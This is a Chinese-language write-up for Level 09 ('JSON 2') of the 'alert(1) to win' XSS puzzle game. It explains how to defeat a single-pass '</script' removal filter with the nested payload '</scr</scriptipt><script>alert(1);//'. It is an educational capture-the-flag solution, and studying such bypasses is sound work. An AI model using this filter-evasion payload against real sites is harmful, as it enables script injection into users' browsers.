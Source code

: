 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 09 - JSON 2](https://alf.nu/alert1)] [[解题报告](http://exp-blog.com/2019/08/04/pid-3900/)]

------

## 题目

```javascript
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

------

## 解题报告

[Level 03 - JSON](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/alert/Level%2003%20-%20JSON) 的进阶版。

回顾下第 3 题的 payload 是 ：

```javascript
</script><script>alert(1);//
```

而这题对输入的字符串会做 **一次** 全局替换，把 `</script` 删掉，使得我们无法闭合标签。

但是因为替换只做一次，所以要绕过也不难，只需要把 `</script` 做一次嵌套即可，例如 `</scr</scriptipt>`，被全局替换后，留下的就是我们需要的闭合标签 `</script>` 。

因此这题可构造这样的 payload ：

```javascript
</scr</scriptipt><script>alert(1);//
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/alert/Level%2009%20-%20JSON%202/imgs/01.png)



------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
